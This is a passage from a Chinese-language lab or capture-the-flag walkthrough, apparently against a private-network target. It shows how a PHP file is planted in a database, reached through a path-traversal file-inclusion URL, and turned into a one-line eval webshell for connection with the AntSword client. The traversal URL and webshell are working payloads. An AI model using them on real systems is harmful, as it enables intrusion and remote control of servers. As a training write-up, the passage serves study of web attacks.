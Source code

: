 打开文件可以看到我们需要3步

![image-20220315161425031](https://gitee.com/xxb667/img/raw/master/img/image-20220315161425031.png)

(1) 创建一个数据库 **hack.php**

![image-20220315161811231](https://gitee.com/xxb667/img/raw/master/img/image-20220315161811231.png)

(2) 创建一个**test表**

![image-20220315161958212](https://gitee.com/xxb667/img/raw/master/img/image-20220315161958212.png)

(3) 写入phpinfo 看下是否利用成功

![image-20220315162223937](https://gitee.com/xxb667/img/raw/master/img/image-20220315162223937.png)

创建成功

![image-20220315162247240](https://gitee.com/xxb667/img/raw/master/img/image-20220315162247240.png)



# 3.getshell

## 3.1 文件包含漏洞getshell

文件路径

```
/usr/databases/hack.php
```

文件包含

```
http://192.168.81.142/view.php?page=../../../usr/databases/hack.php
```

![image-20220315162606721](https://gitee.com/xxb667/img/raw/master/img/image-20220315162606721.png)

思路：包含一个php 一句话木马，getshell。

把`phpinfo()`修改为

```
<?php @eval($_POST[123]);?>
```

然后再文件包含

![image-20220315162744367](https://gitee.com/xxb667/img/raw/master/img/image-20220315162744367.png)

## 3.2 中国蚁剑连接

```
http://192.168.81.142/view.php?page=../../../usr/databases/hack.php
```
